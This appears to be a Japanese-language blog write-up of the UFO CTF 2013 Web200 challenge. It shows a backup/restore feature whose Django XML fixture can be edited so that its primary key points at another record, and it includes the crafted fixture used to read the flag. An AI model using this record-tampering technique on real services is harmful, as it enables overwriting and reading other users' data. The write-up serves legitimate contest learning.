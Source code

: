 ```yaml
---
title: UFO CTF 2013 writeup – Web200
author: tyage
type: posts
date: 2013-10-05T14:55:08+00:00
url: /?p=719
wp-syntax-cache-content:
  - |
    a:2:{i:1;s:6293:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;12349813568&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_email&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>test@localhost<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_title&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>My homepage<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;TextField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_content&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Hello everyone! This is my new homepage.<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_footer&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Made with love and care<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;BooleanField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_is_public&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>False<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_public_id&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table><p class="theCode" style="display:none;">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
    &lt;django-objects version=&quot;1.0&quot;&gt;
    	&lt;object pk=&quot;12349813568&quot; model=&quot;hosting.pagesettings&quot;&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_name&quot;&gt;username&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_email&quot;&gt;test@localhost&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_title&quot;&gt;My homepage&lt;/field&gt;
    		&lt;field type=&quot;TextField&quot; name=&quot;page_content&quot;&gt;Hello everyone! This is my new homepage.&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_footer&quot;&gt;Made with love and care&lt;/field&gt;
    		&lt;field type=&quot;BooleanField&quot; name=&quot;page_is_public&quot;&gt;False&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_public_id&quot;&gt;&lt;/field&gt;
    	&lt;/object&gt;
    &lt;/django-objects&gt;</p></div>
    ";i:2;s:2398:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;1&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table><p class="theCode" style="display:none;">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
    &lt;django-objects version=&quot;1.0&quot;&gt;
    	&lt;object pk=&quot;1&quot; model=&quot;hosting.pagesettings&quot;&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_name&quot;&gt;username&lt;/field&gt;
    	&lt;/object&gt;
    &lt;/django-objects&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<pre>
Those aliens consider themselves as the most smart creatures in
the world. Pff. They shouldn't even have tried to defeat mankind
having such stupid stuff in their heads! As for you, why wouldn't
you hack them? They'll most likely surrender then. By the way, it
is known that they update some data every 10-20 seconds, but
unfortunately our equipment can't intercept the data itself.
 
http://superhosting.tasks.ufoctf.ru:8000/
</pre>
<p>自分のウェブページが作れ、バックアップと復元ができるシステムになっている。</p>
<p>バックアップしてみると、[username]_[md5(username)][md5(zipfile)].zipという名前でzipファイルがダウンロードでき、それをアップロードすることで復元ができるようになっている。<br />
zipファイルの中身を解凍すると、.backupという名前で以下のようなファイルが入っている。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;12349813568&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_email&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>test@localhost<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_title&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>My homepage<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;TextField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_content&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Hello everyone! This is my new homepage.<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_footer&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Made with love and care<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;BooleanField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_is_public&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>False<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_public_id&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table></div>

<p>いろいろと試した結果、復元時にpk(primary key)を変えた場合にそのpkを持つフィールドのデータを上書きすることができるとわかった。</p>
<p>以下のようなxmlファイルを含めて復元し、再びバックアップをダウンロードすると、pk=1のデータの入ったバックアップファイルが手に入り、pk=1のデータにflagが書かれていた。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;1&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table></div>

